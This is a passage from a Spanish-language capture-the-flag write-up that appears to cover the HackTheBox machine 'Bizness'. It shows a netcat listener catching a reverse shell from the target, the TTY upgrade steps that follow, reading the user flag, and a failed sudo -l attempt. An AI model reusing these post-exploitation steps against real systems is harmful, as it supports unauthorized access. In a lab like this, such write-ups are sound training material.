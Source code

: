 Vamos a hacer un tratamiento de la tty. Como siempre escribimos lo siguiente:

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.222] from (UNKNOWN) [10.10.11.252] 58810
script /dev/null -c bash
Script started, output log file is '/dev/null'.
ofbiz@bizness:/opt/ofbiz$ ^Z
zsh: suspended  nc -nlvp 443
❯ stty raw -echo; fg
[2]  - continued  nc -nlvp 443
                              reset xterm
```
Ahora ya podemos hacer Cntrl + C sin que se salga de la terminal. Si queremos que funcione el Ctrl + l hacemos lo siguiente:
```bash
ofbiz@bizness:/opt/ofbiz$ export TERM=xterm
```

Y lo único que faltaria son ajustar las dimensiones para que se vea bien el editor de texto nano. 
```bash
ofbiz@bizness:/opt/ofbiz$ stty size
24 80
ofbiz@bizness:/opt/ofbiz$ stty rows 44 columns 184
ofbiz@bizness:/opt/ofbiz$ stty size
44 184
```

Y ya habremos completado el tratamiento de la tty.

<div style="text-align: center;">
    <b><span style="color: #98FB98;">USER FLAG</span></b>
    <br>
    ---------------------------
</div>
 --------------------------

```bash
ofbiz@bizness:/opt/ofbiz$ pwd
/opt/ofbiz
ofbiz@bizness:/opt/ofbiz$ cd /home
ofbiz@bizness:/home$ ls
ofbiz
ofbiz@bizness:/home$ cd ofbiz/
ofbiz@bizness:~$ ls
user.txt
ofbiz@bizness:~$ cat user.txt
bd81fb57590b1e511d008f79b49c0ff8
ofbiz@bizness:~$ 
```


Intento listar los privilegios sudo del usuario pero me pide una pass.
```bash
ofbiz@bizness:~$ sudo -l
[sudo] password for ofbiz: 
Sorry, try again.
[sudo] password for ofbiz:
```
Ahora voy a sacar la info sobre la distro del SO.
